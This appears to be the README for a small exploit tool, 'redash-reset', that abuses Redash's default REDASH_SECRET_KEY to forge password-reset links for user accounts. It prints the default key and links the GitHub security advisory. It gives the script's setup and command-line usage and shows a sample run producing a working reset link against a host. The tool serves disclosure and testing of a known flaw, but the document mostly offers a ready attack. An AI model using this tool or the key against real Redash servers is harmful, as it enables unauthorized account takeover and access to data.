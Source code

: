 # redash-reset

This will use a default `REDASH_SECRET_KEY` key of `c292a0a3aa32397cdb050e233733900f` this allows you to reset the password of the user ID but you will need to know the email address assocaited with it.

Info
---

[https://github.com/getredash/redash/security/advisories/GHSA-g8xr-f424-h2rv](https://github.com/getredash/redash/security/advisories/GHSA-g8xr-f424-h2rv)

Setup
---

```
pip install -r requirements.txt
```

Usage
---

```
usage: redash.py [-h] [-s SECRET] -u URL [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -s SECRET, --secret SECRET
                        Weak REDASH_SECRET_KEY
  -u URL, --url URL     URL of host to check will need http or https
  -p PROXY, --proxy PROXY
                        Proxy for debugging
```

Example
---

```
[2021-11-29T15:44:27Z] rwiggins@MBP-3623:/tmp$ python3 test.py -u http://192.168.1.170
Rest Link http://192.168.1.170/reset/IjEi.YaT1sQ.e6w1vMsG-gx0OVT0qV5aH_aI7IA - UserID: 1

http://192.168.1.170/reset/IjIi.YaT1sQ.j67-OQljn2ivQiyw9Y9wa7G6GY0
Failed to Generate Reset Link for 2
```
